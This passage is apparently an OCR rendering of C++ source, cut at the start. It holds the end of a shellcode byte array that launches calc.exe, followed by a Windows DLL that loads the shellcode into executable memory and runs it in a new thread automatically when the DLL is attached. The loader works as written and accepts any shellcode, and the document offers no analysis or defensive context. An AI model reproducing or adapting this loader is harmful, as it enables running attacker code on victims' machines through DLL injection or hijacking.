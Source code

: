 ```c++
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int payload_len = 276;



extern __declspec(dllexport) int Go(void);
int Go(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	RtlMoveMemory(exec_mem, payload, payload_len);
	
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, 0);
	}
	return 0;
}


BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {

	switch ( fdwReason ) {
			case DLL_PROCESS_ATTACH:
					Go();
					break;
			case DLL_THREAD_ATTACH:
					break;
			case DLL_THREAD_DETACH:
					break;
			case DLL_PROCESS_DETACH:
					break;
			}
	return TRUE;
}

```

